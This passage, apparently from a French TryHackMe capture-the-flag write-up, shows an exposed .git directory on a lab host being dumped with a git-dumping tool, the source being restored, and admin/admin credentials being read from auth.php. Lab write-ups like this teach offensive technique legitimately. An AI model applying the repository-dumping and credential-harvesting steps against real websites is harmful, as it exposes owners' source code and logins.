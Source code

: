 ```bash
[-] Fetching http://pwd.harder.local/.git/objects/66/428e37f6bfaac0b42ce66106bee0a5bdf94d4e [200]
[-] Fetching http://pwd.harder.local/.git/objects/cd/a7930579f48816fac740e2404903995e0ff614 [200]
[-] Fetching http://pwd.harder.local/.git/objects/22/8694f875f20080e29788d7cc3b626272107462 [200]
[-] Fetching http://pwd.harder.local/.git/objects/00/00000000000000000000000000000000000000 [404]
[-] http://pwd.harder.local/.git/objects/00/00000000000000000000000000000000000000 responded with status code 404
[-] Fetching http://pwd.harder.local/.git/objects/ad/68cc6e2a786c4e671a6a00d6f7066dc1a49fc3 [200]
[-] Fetching http://pwd.harder.local/.git/objects/93/99abe877c92db19e7fc122d2879b470d7d6a58 [200]
[-] Fetching http://pwd.harder.local/.git/objects/6e/1096eae64fede71a78e54999236553b75b3b65 [200]
[-] Fetching http://pwd.harder.local/.git/objects/e3/361e96c0a9db20541033f254df272deeb9dba7 [200]
[-] Fetching http://pwd.harder.local/.git/objects/aa/938abf60c64cdb2d37d699409f77427c1b3826 [200]
[-] Fetching http://pwd.harder.local/.git/objects/c6/66164d58b28325393533478750410d6bbdff53 [200]
[-] Fetching http://pwd.harder.local/.git/objects/be/c719ffb34ca3d424bd170df5f6f37050d8a91c [200]
[-] Running git checkout .

```

On dump le dépot git.    

```bash
tim@kali:~/Bureau/tryhackme/write-up/git$ git checkout .
0 chemin mis à jour depuis l'index
tim@kali:~/Bureau/tryhackme/write-up/git$ ls -la
total 48
drwxr-xr-x 3 tim tim  4096 31 août  21:25 .
drwxr-xr-x 3 tim tim  4096 31 août  21:24 ..
-rw-r--r-- 1 tim tim 23820 31 août  21:25 auth.php
drwxr-xr-x 7 tim tim  4096 31 août  21:27 .git
-rw-r--r-- 1 tim tim    27 31 août  21:25 .gitignore
-rw-r--r-- 1 tim tim   431 31 août  21:25 hmac.php
-rw-r--r-- 1 tim tim   608 31 août  21:25 index.php
```

```php
tim@kali:~/Bureau/tryhackme/write-up/git$ head auth.php 
<?php
define('LOGIN_USER', "admin");
define('LOGIN_PASS', "admin");

define('LOGOUT_COMPLETE', "You've been successfully logged out.");
define('INCORRECT_USERNAME_PASSWORD', "Invalid login credentials!");
define('STARTER_GREETING', "Harder Corp. - Password Manager");
define('USERNAME', "Username");
define('PASSWORD', "Password");
define('ENTER_USERNAME', "Enter Username");

```

Dans le fichier auth on trouve les identifiants qui sont : admin et admin.   

![page4](./Task1-04.png)
